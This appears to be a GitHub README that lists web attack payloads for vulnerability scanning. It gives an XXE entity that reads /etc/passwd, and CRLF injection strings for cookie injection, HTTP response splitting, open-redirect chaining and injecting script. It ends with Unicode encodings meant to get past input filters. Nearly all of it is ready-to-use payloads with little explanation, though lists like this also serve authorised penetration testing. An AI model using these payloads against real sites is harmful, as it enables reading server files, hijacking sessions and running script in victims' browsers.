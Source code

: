 # Payloads
Payloads for scanning Vulnarability


# XXE Vulnarability Payloads

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
 <!ELEMENT foo ANY>
 <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>


CRLF Injection
CRLF Injecton Payloads

%0d%0aSet-Cookie:%20lang=crlf%3b

/%25E5%2598%258A%25E5%2598%258Dcontent-type:text/html%25E5%2598%258A%25E5%2598%258Dlocation:%25E5%2598%258A%25E5%2598%258D%25E5%2598%258A%25E5%2598%258D%25E5%2598%25BCsvg/onload=alert%2528innerHTML%2529%25E5%2598%25BE

# HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                    
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

# CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

# Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
